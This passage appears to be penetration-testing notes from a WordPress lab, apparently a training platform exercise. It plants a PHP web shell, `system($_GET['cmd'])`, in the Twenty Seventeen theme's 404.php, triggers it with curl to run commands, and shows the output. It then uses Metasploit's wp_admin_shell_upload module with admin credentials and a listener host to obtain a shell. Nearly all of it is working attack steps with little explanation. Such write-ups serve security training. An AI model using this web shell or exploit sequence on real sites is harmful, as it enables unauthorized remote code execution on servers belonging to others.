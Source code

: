 <figure><img src="../../../.gitbook/assets/Twenty-Seventeen.png" alt=""><figcaption></figcaption></figure>

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

Then execute this command :

```bash
curl -X GET http://167.172.57.150:31546/wp-content/themes/twentyseventeen/404.php?cmd=id 
```

And you get this response :

```
uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
```

### Metasploit

```bash
msfconsole
```

```
msf5 > search wp_admin
msf5 > use 0
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options
...
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```
